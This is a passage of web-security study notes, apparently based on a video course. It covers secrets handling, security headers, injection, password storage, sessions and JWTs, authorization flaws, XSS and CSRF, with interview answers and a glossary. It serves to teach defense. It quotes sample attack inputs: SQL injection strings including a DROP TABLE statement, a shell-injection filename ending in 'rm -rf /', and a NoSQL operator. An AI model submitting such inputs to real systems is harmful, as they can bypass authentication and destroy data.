- **Never store secrets in source code.** Code is committed to git and pushed to GitHub/GitLab/Bitbucket; anyone with repo access can then reach your DB, external services, and forge tokens.
- Keep them in **environment variables** (loaded from a non-committed `.env` locally) or a **secret manager**: AWS Systems Manager Parameter Store / Secrets Manager, HashiCorp Vault, etc.
- If a secret is ever committed, **deleting it isn't enough** — it's still in the **commit history**. **Rotate it immediately** (revoke and issue a new one).

```bash
# .gitignore
.env
.env.*
```



### Debug mode / log levels in production

Locally, the log level is usually **debug**: detailed errors with **stack traces** (reveal function names, file names, code structure), raw **SQL queries**, DB pool configs, transaction details, sometimes user data. In production, the log level should be **info** (or higher) so these never appear.

If you forget to configure production log levels, all that internal information flows into production logs — and if logs leak, attackers learn your code structure, DB details and user data. Be explicit about log levels per environment (local, staging, production). Also: never return stack traces in API error responses.

### Security headers

Besides CSP, several HTTP headers prevent whole attack classes:

| Header | Purpose |
|---|---|
| `Content-Security-Policy` | Restrict which scripts/images/etc. may load (XSS mitigation); `frame-ancestors` controls framing |
| `X-Frame-Options: DENY` / `SAMEORIGIN` | Prevent other sites embedding yours in an iframe — stops **clickjacking** |
| `Strict-Transport-Security` (HSTS) | Force HTTPS for future visits |
| `X-Content-Type-Options: nosniff` | Stop MIME-type sniffing |
| `Referrer-Policy` | Limit what URL info leaks to other sites |

**Clickjacking**: an attacker loads your site in an invisible/disguised iframe on their page and tricks users into clicking or typing (credentials) into it, while their own JS observes interactions. `X-Frame-Options` (or CSP `frame-ancestors`) blocks the framing.

Every major framework offers a security middleware that sets industry-standard headers in one line — e.g. **Helmet** for Express, `secure` middleware for Echo (Go), Gin helpers, Django's `SecurityMiddleware`.

```ts
import helmet from "helmet";
app.use(helmet()); // sets CSP, X-Frame-Options, HSTS, nosniff, etc.
```

## The big picture: boundaries, assumptions, layers

### Everything is about boundaries

Every vulnerability is **data crossing a boundary** — between systems, privilege levels, languages, markup formats, trust zones:

| Vulnerability | Boundary crossed |
|---|---|
| SQL injection | Untrusted input → database query language |
| Command injection | Untrusted input → shell |
| XSS | User markup/Markdown → HTML/JS executed by browsers |
| Broken authorization | Requests → resources of other users / higher privilege levels |

Ask three questions every time you write code:

1. **Where is data crossing a boundary?**
2. **What assumptions am I making about that data?**
3. **What if those assumptions are wrong?**

### Defense in depth

No single defense is perfect. Stack layers so an attacker must defeat all of them at once:



1. **Input validation** — the first line of defense, right after route matching. Validate everything as strictly as possible; data leaving validation should be exactly the expected structure, no surprises downstream.
2. **Parameterized operations** — for databases and OS operations (files, processes) use the language/framework APIs with explicit parameters, never string concatenation.
3. **Authorization checks at the point of access** — the BOLA bug happened because access was checked at the router but the actual access happened in the repository. Check where the access actually happens.
4. **Security headers & policies** — CORS, CSP, cookie flags, security headers. Not robust on their own, but they **limit the blast radius** when something gets through.
5. **Monitoring & logging** — log suspicious activity, ship to your logging service, raise alerts.

> [!IMPORTANT]
> Security is not a feature you add once; it's a **mindset** — paranoia about boundaries and assumptions applied to every line of code.

### Where to learn more

- **PortSwigger Web Security Academy** (from the makers of **Burp Suite**, the famous penetration-testing tool) — free, comprehensive theory + hands-on labs: SQL injection, XSS, CSRF, clickjacking, **SSRF**, OS command injection, authentication and OAuth vulnerabilities, JWT attacks, and more.
- **OWASP Top 10** — a regularly updated list of the most critical web risks. Recent editions list **Broken Access Control** (BOLA/BFLA etc.) at #1, along with **Security Misconfiguration** and **Injection**.
- **OWASP Cheat Sheet Series** — focused best-practice guides per topic (Authentication, Session Management, Password Storage, etc.), e.g. why session IDs must come from a CSPRNG.

## Common mistakes & misconceptions

- **"Validation is enough to stop SQL injection."** Validation is a layer; parameterized queries are the guarantee.
- **"Escaping quotes manually is fine."** Hand-rolled escaping misses edge cases (encodings, other special characters). Use placeholders.
- **"I use MongoDB, so injection doesn't apply."** Operator injection (`$ne`, `$gt`) is real.
- **"Hashing with SHA-256 is secure password storage."** Too fast; GPUs try billions per second. Use Argon2id/bcrypt.
- **"Salts must be secret."** No — salts are stored next to the hash; their job is uniqueness, not secrecy.
- **"JWT payloads are encrypted."** They're Base64url-encoded and readable by anyone. Signed ≠ encrypted.
- **"Logout with JWT just deletes the token client-side."** The token is still valid until expiry if stolen.
- **"Storing tokens in localStorage is fine."** Any XSS can read it; use HttpOnly cookies.
- **"The route is protected by auth middleware, so the handler is safe."** Authentication ≠ authorization of *this* object (BOLA).
- **"Nobody knows the admin URL."** Security through obscurity; check roles.
- **"Returning 403 for someone else's resource is the most correct."** It leaks existence; prefer 404 for owned resources.
- **"UUIDs fix IDOR."** They reduce guessability; the ownership check is still required.
- **"CSP prevents XSS."** CSP mitigates; sanitization/escaping prevents.
- **"CORS protects my API from attackers."** CORS is a browser read-permission mechanism; curl and scripts ignore it, and simple form POSTs aren't blocked.
- **"I deleted the leaked key from the repo, so we're fine."** It lives in git history; rotate it.
- **"Per-IP rate limiting is enough."** Rotating IPs and password spraying bypass it; layer per-account and global limits.

## Interview questions

<details>
<summary><strong>Q: Explain SQL injection with an example and how parameterized queries prevent it.</strong></summary>

If a server builds `SELECT * FROM users WHERE email = '` + input + `'`, the input `' OR '1'='1' --` closes the string, adds an always-true condition, and comments out the rest, returning every user. Input like `'; DROP TABLE users; --` can even stack a destructive statement. Parameterized queries send the statement (`WHERE email = $1`) and the values separately; the database parses the structure first and binds values purely as data, so special characters can never change the query's structure. Add strict validation and a least-privilege DB user (DML only, no DDL) as extra layers.

</details>

<details>
<summary><strong>Q: What is command injection and how do you prevent it?</strong></summary>

It's injection into an OS shell: e.g. `exec("ffmpeg ... " + fileName)` with `fileName = "out.jpg; rm -rf /"` makes the shell run a second command (`;`, `|`, `&`, `$()` are all shell metacharacters). Prevent it by never invoking a shell with concatenated strings: use APIs that take the program and an argument array (`execFile` / `spawn` without `shell: true` in Node, `exec.Command` in Go, `subprocess.run([...])` in Python). Arguments go straight to the process and are never interpreted. Also validate inputs (allowlist filenames, generate names server-side, guard against leading `-` and `../`), and run with least privilege.

</details>

<details>
<summary><strong>Q: Walk me through how you would store and verify passwords, and why each step exists.</strong></summary>

Plain text fails because breaches happen and users reuse passwords (credential stuffing) and insiders can read them. Plain hashing fails to rainbow tables because hashes are deterministic. A per-user random salt (from a CSPRNG) makes every hash unique, defeating precomputation. But fast hashes like SHA-256 still allow billions of GPU guesses per second offline, so use a slow, memory-hard password hash — Argon2id (or bcrypt/scrypt) — with a cost factor tuned to roughly a few hundred ms. Verify by hashing the attempt with the stored salt/params and comparing in constant time (the library's `verify`).

</details>

<details>
<summary><strong>Q: Sessions vs JWTs — which would you choose and why?</strong></summary>

Sessions store state server-side (Redis/DB) and give the client an opaque random ID in an HttpOnly cookie; revocation and "log out everywhere" are trivial, and nothing sensitive is exposed. JWTs carry signed claims to the client; no lookup per request makes scaling easy, but revocation is hard, the payload is readable, and storage in localStorage is XSS-prone. I default to sessions for most SaaS apps — a shared Redis handles multi-server scaling. If I need JWTs (e.g. many services verifying independently), I'd use short-lived access tokens, rotated refresh tokens stored/revocable server-side, and HttpOnly cookies.

</details>

<details>
<summary><strong>Q: A user says their account was compromised and asks you to log them out of all devices. How do you do this with sessions vs JWTs?</strong></summary>

With sessions: delete all session rows for that user in Redis/DB; every device's next request fails authentication immediately. With pure stateless JWTs you can't — tokens remain valid until expiry. Workarounds: a denylist of token IDs (or a per-user "tokens issued before X are invalid" timestamp) checked on each request, and short-lived access tokens with refresh tokens that you revoke server-side so the attacker can't get new access tokens. Also force a password reset.

</details>

<details>
<summary><strong>Q: What are HttpOnly, Secure and SameSite cookie flags?</strong></summary>

HttpOnly: JavaScript can't read the cookie, so XSS can't steal the session. Secure: sent only over HTTPS, so it can't be sniffed on public Wi-Fi or by a malicious ISP. SameSite controls cross-site sending: Strict (only same-site requests), Lax (also top-level navigations, not cross-site subresources/POSTs — the modern default), None (always, requires Secure). Strict/Lax defeat CSRF.

</details>

<details>
<summary><strong>Q: How would you rate limit a login endpoint against brute force?</strong></summary>

In layers. Per-IP limits (e.g. 10/min) stop single-machine attacks but hurt shared-IP users and are bypassed by botnets/proxies. Per-account limits (e.g. 5 failures / 15 min → temporary lock or CAPTCHA) stop targeted attacks with rotating IPs. Password spraying (one password across many accounts from many IPs) bypasses both, so add a global failed-login rate threshold that triggers alerts, CAPTCHA for everyone, and IP blocking. Return 429, use a shared store like Redis for counters, and be careful that lockouts can't be weaponized to DoS real users.

</details>

<details>
<summary><strong>Q: What is BOLA (IDOR)? Give an example and the fix.</strong></summary>

Broken Object Level Authorization: the API checks that the user is authenticated and has, say, `read:invoices`, but not that *this specific invoice* belongs to them. `GET /invoices/102` with any valid session returns another user's invoice, and a script can iterate IDs to dump everything. Fix: enforce ownership at the point of access — `SELECT ... WHERE id = $1 AND user_id = $2` using the user ID from the request context — for reads, updates and deletes; return 404 when no row matches; use non-sequential IDs; and add automated cross-user tests.

</details>

<details>
<summary><strong>Q: What's the difference between BOLA and BFLA? Horizontal vs vertical privilege escalation?</strong></summary>

BOLA is about data: user A accessing user B's objects — horizontal escalation (same privilege level, wider scope). BFLA is about functions: a regular member calling admin-only operations like `GET /admin/invoices` — vertical escalation (higher privilege). BOLA is fixed with ownership-scoped queries; BFLA with role/permission checks (e.g. `requireRole("admin")`) on every sensitive route, never by hiding URLs (security through obscurity).

</details>

<details>
<summary><strong>Q: Why might you return 404 instead of 403 when a user requests someone else's resource?</strong></summary>

A 403 confirms the resource exists. An attacker who guessed IDs can loop and map which records exist, then use that for further attacks like social engineering. Doing a single owner-scoped query and returning 404 on no rows makes "doesn't exist" and "not yours" indistinguishable, leaking nothing.

</details>

<details>
<summary><strong>Q: Explain stored, reflected and DOM-based XSS and how to defend against them.</strong></summary>

All three make attacker JavaScript run in a victim's browser on your origin. Stored: payload saved in your DB (e.g. a comment) and served to every viewer. Reflected: payload in a URL parameter echoed into the response; victims are lured to click the link. DOM-based: client-side JS writes untrusted data (like `location.hash`) into `innerHTML` without the server involved. Defenses: escape output (React does by default), sanitize any user HTML/Markdown with an allowlist sanitizer (DOMPurify), avoid `dangerouslySetInnerHTML`/`innerHTML`, HttpOnly cookies, and a strict CSP (no inline scripts) as the last line of defense.

</details>

<details>
<summary><strong>Q: What is CSRF and why is it less of a concern today?</strong></summary>

CSRF tricks a logged-in user's browser into sending a state-changing request to your site from another site (e.g. an auto-submitting form on evil.com posting to bank.com/transfer); the browser attaches the bank's cookies so the server thinks it's genuine. Modern browsers default cookies to SameSite=Lax, so cookies aren't sent on cross-site POSTs; with Strict/Lax set explicitly you're protected unless you use SameSite=None. CORS adds a weak extra barrier for JS requests. Additional standard defenses: CSRF tokens, Origin header checks, no state changes on GET.

</details>

<details>
<summary><strong>Q: What happens if you accidentally commit an API key to a public GitHub repo?</strong></summary>

Assume it's compromised immediately — bots scan GitHub for keys within minutes. Deleting it in a new commit doesn't help because it remains in git history and forks/clones. Rotate (revoke and reissue) the secret right away, check provider logs for abuse, and then move secrets to environment variables or a secret manager (Vault, AWS Parameter Store/Secrets Manager), add `.env` to `.gitignore`, and consider secret-scanning in CI.

</details>

<details>
<summary><strong>Q: What is CSP and is it enough to prevent XSS?</strong></summary>

Content-Security-Policy is a response header telling the browser which sources of scripts, images, styles, frames etc. are allowed — e.g. `script-src 'self'` with no `'unsafe-inline'` blocks injected inline scripts and `onerror` handlers. It's a mitigation and last line of defense, not a prevention: you still must sanitize and escape user content. CSP limits the damage if something slips through.

</details>

<details>
<summary><strong>Q: Name some security misconfigurations you'd check before going to production.</strong></summary>

Secrets in code or git history instead of env vars/secret manager; debug log level in production leaking stack traces, SQL and user data (set info level, never return stack traces to clients); missing security headers (CSP, X-Frame-Options against clickjacking, HSTS, nosniff — use Helmet or the framework's middleware); permissive CORS; cookies without HttpOnly/Secure/SameSite; DB user with DDL privileges; default credentials.

</details>

## Cheat sheet

- **Core question:** where did the developer make an assumption? **Three questions:** where does data cross a boundary, what am I assuming, what if I'm wrong?
- **Injection root cause:** data treated as code across language boundaries (SQL, NoSQL, shell, HTML).
- **SQLi payloads:** `' OR '1'='1' --` (always-true), `'; DROP TABLE users; --` (stacked), `UNION SELECT` (exfiltrate other tables).
- **SQLi fix:** parameterized queries (`$1`, `?`) + validation + app DB user with DML only (no DDL). Allowlist identifiers (column names) that can't be parameterized.
- **NoSQLi:** `{"$ne": null}` in place of a string → enforce types; never pass raw request objects into queries.
- **Command injection:** `; | & $()` → use `execFile`/`spawn` (no shell), Go `exec.Command`, argument arrays; validate filenames.
- **Passwords:** plain text ✗ → hash ✗ (rainbow tables) → hash + salt ✗ (GPU brute force) → **Argon2id / bcrypt / scrypt with salt and cost factor** ✓ (~100-500 ms per hash).
- **Session ID:** CSPRNG, ≥128 bits, stored in Redis/DB with user, expiry, IP, user agent.
- **Cookie:** `HttpOnly` (vs XSS) + `Secure` (vs sniffing) + `SameSite=Strict/Lax` (vs CSRF). `None` requires `Secure`.
- **JWT:** `header.payload.signature`; claims `sub`, `iat`, `exp`; payload is Base64 → readable, never sensitive; hard to revoke → short access token (5-10 min) + refresh token (1-7 days) with rotation; HttpOnly cookie, not localStorage.
- **Default choice:** stateful sessions (Redis for multi-server).
- **Rate limiting layers:** per-IP → per-account → global (alerts + CAPTCHA). Strict on auth endpoints. HTTP 429.
- **Authorization:** check at point of access (query), not just router. `WHERE id = $1 AND user_id = $2`. Return 404 not 403 for others' objects.
- **BOLA/IDOR** = horizontal (A → B's data). **BFLA** = vertical (member → admin function). No security through obscurity.
- **Sequential IDs** enable enumeration → UUIDs (v7 for index locality), but still check ownership.
- **Authorization rules:** centralize, default deny, automated tests in CI, audit logs + log failed checks.
- **XSS types:** stored, reflected, DOM-based. Fix: escape output, sanitize HTML (DOMPurify), avoid `dangerouslySetInnerHTML`, HttpOnly, CSP (last line).
- **CSRF:** cross-site request with auto-attached cookies → SameSite (Lax default), CSRF tokens, Origin checks, CORS (weak).
- **Misconfig:** secrets in env/secret manager, rotate if leaked; prod log level info; security headers via Helmet (CSP, X-Frame-Options vs clickjacking, HSTS, nosniff).
- **Defense in depth:** validation → parameterized ops → authz at access → headers/policies → monitoring/logging.
- **Learn more:** PortSwigger Web Security Academy, OWASP Top 10, OWASP Cheat Sheet Series.

## Glossary

- **Attacker** — anyone trying to harm your application; probes every assumption.
- **Happy path** — the scenario where users behave exactly as intended.
- **Injection** — untrusted input interpreted as code by another interpreter (SQL, shell, browser).
- **SQL injection (SQLi)** — injection into database queries via string-built SQL.
- **Parameterized query / prepared statement** — query with placeholders whose values are bound separately as pure data.
- **DML / DDL** — Data Manipulation Language (SELECT/INSERT/UPDATE/DELETE) vs Data Definition Language (CREATE/ALTER/DROP).
- **Least privilege** — grant each component only the permissions it needs.
- **NoSQL injection** — injecting query operators (e.g. `$ne`) into document-database queries.
- **Command injection** — injecting shell metacharacters into OS commands.
- **Argument array** — passing a program's arguments as a list directly to the process, bypassing the shell.
- **Hash function** — deterministic, one-way function producing fixed-length output.
- **Rainbow table** — precomputed mapping from hashes back to common passwords.
- **Salt** — random per-user value mixed into a password before hashing to make hashes unique.
- **CSPRNG** — cryptographically secure pseudo-random number generator.
- **Cost / work factor** — tunable parameter making a password hash deliberately slow.
- **Argon2id / bcrypt / scrypt** — slow password-hashing algorithms; Argon2id is the current standard.
- **Credential stuffing** — trying leaked email/password pairs on other sites.
- **Brute force** — trying many passwords; *offline* against stolen hashes, *online* against a login endpoint.
- **Password spraying** — trying one common password across many accounts to avoid per-account limits.
- **Session** — server-side record proving a user authenticated, referenced by a random session ID.
- **HttpOnly / Secure / SameSite** — cookie flags: no JS access / HTTPS only / cross-site sending policy.
- **JWT** — signed token `header.payload.signature` carrying claims; stateless.
- **Claim** — key-value pair in a JWT payload (`sub`, `iat`, `exp`, custom).
- **Access token / refresh token** — short-lived token for requests / longer-lived token to obtain new access tokens.
- **Token blacklist (denylist)** — server-side list of revoked tokens.
- **Rate limiting** — capping how many requests a client/account/system accepts per time window.
- **CAPTCHA** — challenge distinguishing humans from bots.
- **BOLA** — Broken Object Level Authorization: missing per-object ownership checks.
- **IDOR** — Insecure Direct Object Reference: accessing objects by manipulating identifiers.
- **BFLA** — Broken Function Level Authorization: missing role checks on sensitive functions.
- **Horizontal / vertical escalation** — accessing peers' resources / gaining higher privileges.
- **Security through obscurity** — relying on secrecy of design/URLs instead of real controls.
- **Enumeration** — systematically probing IDs to discover which exist.
- **Social engineering** — manipulating people (e.g. support staff) into revealing information or access.
- **Default deny** — deny anything not explicitly allowed.
- **Audit log** — record of who accessed what sensitive resource and when.
- **XSS** — Cross-Site Scripting: attacker JS executing in victims' browsers on your origin (stored, reflected, DOM-based).
- **Sanitization** — removing dangerous parts of user input (e.g. `<script>`, `on*` attributes).
- **CSP** — Content Security Policy header restricting what the browser may load/execute.
- **CSRF** — Cross-Site Request Forgery: another site makes the victim's browser send authenticated requests.
- **CORS** — browser mechanism controlling which origins may read cross-origin responses.
- **Clickjacking** — embedding your site in a disguised iframe to hijack user clicks/input.
- **X-Frame-Options** — header controlling whether your site may be framed.
- **Secret manager** — service storing secrets (Vault, AWS Parameter Store/Secrets Manager).
- **Secret rotation** — revoking a secret and issuing a replacement.
- **Defense in depth** — multiple independent security layers.
- **OWASP** — Open Worldwide Application Security Project; publishes the Top 10 and Cheat Sheets.
- **SSRF** — Server-Side Request Forgery: tricking the server into making requests to internal/attacker-chosen URLs (listed in PortSwigger resources).

## Video timestamps

- [00:00](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=0s) — Why security matters and the scope (browser, network, server, backend)
- [04:03](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=243s) — Thinking like an attacker: where did the developer make an assumption?
- [07:08](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=428s) — Injection attacks and the "app speaks many languages" model
- [11:13](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=673s) — SQL injection: login page example
- [14:18](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=858s) — The `' OR '1'='1' --` payload and live demo
- [23:30](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=1410s) — `DROP TABLE` stacked queries and least-privilege DB users
- [27:36](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=1656s) — UNION attacks and SQL special characters: code vs data
- [29:39](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=1779s) — Parameterized queries / prepared statements
- [38:50](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=2330s) — NoSQL (MongoDB operator) injection
- [40:51](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=2451s) — OS command injection and argument arrays
- [45:59](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=2759s) — Injection mental model summary
- [48:02](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=2882s) — Authentication vulnerabilities overview
- [49:03](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=2943s) — Why to use an auth provider
- [57:13](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=3433s) — Password storage: plain text and breaches
- [1:02:21](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=3741s) — Hashing
- [1:06:23](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=3983s) — Rainbow tables
- [1:09:28](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=4168s) — Salting (bcrypt, Argon2id, Lucia)
- [1:14:36](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=4476s) — GPU brute force and slow hashes with cost factor
- [1:18:44](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=4724s) — Sessions and session IDs
- [1:23:49](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=5029s) — Cookie flags: HttpOnly, Secure, SameSite
- [1:29:54](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=5394s) — JWTs: structure and flow
- [1:36:59](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=5819s) — JWT revocation problem
- [1:39:03](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=5943s) — Blacklists, access and refresh tokens
- [1:42:08](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=6128s) — Base64 payload and tampering demo
- [1:43:08](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=6188s) — Token storage and sessions-vs-JWT recommendation
- [1:46:12](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=6372s) — Rate limiting: per-IP, per-account, global
- [1:51:19](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=6679s) — Authorization vulnerabilities and the false sense of security
- [1:58:28](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=7108s) — BOLA (broken object level authorization)
- [2:01:29](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=7289s) — 403 vs 404 and information leakage
- [2:06:34](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=7594s) — BFLA and security through obscurity
- [2:10:39](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=7839s) — IDOR and sequential IDs vs UUIDs
- [2:12:41](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=7961s) — Horizontal vs vertical authorization attacks
- [2:14:43](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=8083s) — Centralize, default deny, test, audit logs
- [2:17:45](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=8265s) — XSS: what it is and why it's dangerous
- [2:20:49](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=8449s) — Stored XSS via Markdown comments, dangerouslySetInnerHTML
- [2:25:53](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=8753s) — Reflected and DOM-based XSS, root cause
- [2:27:57](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=8877s) — Content Security Policy
- [2:31:02](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9062s) — CSRF and why SameSite and CORS help
- [2:35:08](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9308s) — Misconfiguration: secrets management
- [2:37:12](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9432s) — Debug mode and log levels in production
- [2:39:13](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9553s) — Security headers, clickjacking, security middleware
- [2:41:15](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9675s) — Boundaries: the unifying mental model
- [2:42:15](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9735s) — Defense in depth layers
- [2:45:18](https://www.youtube.com/watch?v=xB1C1xZZW4k&t=9918s) — Resources: PortSwigger Academy, OWASP Top 10, Cheat Sheets
